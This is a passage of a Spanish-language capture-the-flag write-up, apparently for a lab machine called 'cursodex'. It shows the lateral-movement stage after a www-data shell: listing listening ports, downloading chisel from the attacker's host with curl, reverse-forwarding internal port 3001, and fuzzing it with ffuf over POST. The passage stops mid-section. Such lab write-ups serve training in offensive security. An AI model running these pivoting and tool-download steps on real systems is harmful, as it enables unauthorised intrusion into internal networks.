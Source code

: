 www-data shell

Movimiento lateral#
Hacemos el tratamiento de la TTY para poder trabajar de forma más cómoda con nuestra shell.

Podemos observar que internamente hay varios puertos abiertos.

www-data@cursodex:/var/www/admin$ ss -ano|grep tcp|grep LISTEN
tcp   LISTEN     0      4096                                    127.0.0.1:11434                  0.0.0.0:*                           
tcp   LISTEN     0      511                                     127.0.0.1:3001                   0.0.0.0:*                           
tcp   LISTEN     0      4096                                    127.0.0.1:43831                  0.0.0.0:*                           
tcp   LISTEN     0      511                                             *:80                           *:*                           
mptcp LISTEN     0      4096                                    127.0.0.1:11434                  0.0.0.0:*                           
mptcp LISTEN     0      4096                                    127.0.0.1:43831                  0.0.0.0:*  
Copiar
El puerto que nos interesa es el 3001, así que utilizamos chisel para redirigirlo a nuestra máquina atacante.

Para ello, compartimos el binario de chisel desde nuestra máquina mediante un servidor web.

cp /usr/bin/chisel .
python3 -m http.server 80
Copiar
y lo obtenemos en nuestra maquina victima con curl.

curl http://192.168.1.181/chisel -O /tmp/chisel
chmod +x /tmp/chisel
Copiar
Ahora reenviamos el puerto: en nuestra máquina atacante levantamos el servicio de chisel en el puerto 12312.

chisel server -p 12312 --reverse
Copiar
y en la máquina víctima redirigimos el puerto 3001 hacia la IP de nuestra máquina atacante.

/tmp/chisel client 192.168.1.181:12312 R:3001:127.0.0.1:3001
Copiar
Ahora que podemos acceder al puerto desde nuestra máquina, lo analizamos en busca de endpoints vulnerables. Es importante destacar que existen endpoints accesibles únicamente mediante métodos HTTP distintos a GET, y que pueden responder con errores HTTP por diferentes motivos.

Con el método GET encontramos varios endpoints, pero ninguno vulnerable; todos corresponden a la ruta /api, a la que ya teníamos acceso desde fuera (cursodex.thl/api).

Como gobuster solo permite hacer fuzzing con el método GET, utilizamos ffuf, que es más versátil y permite probar otros métodos.

ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://127.0.0.1:3001/FUZZ -X POST -fc 404 -mc all
Copiar
Los parámetros:
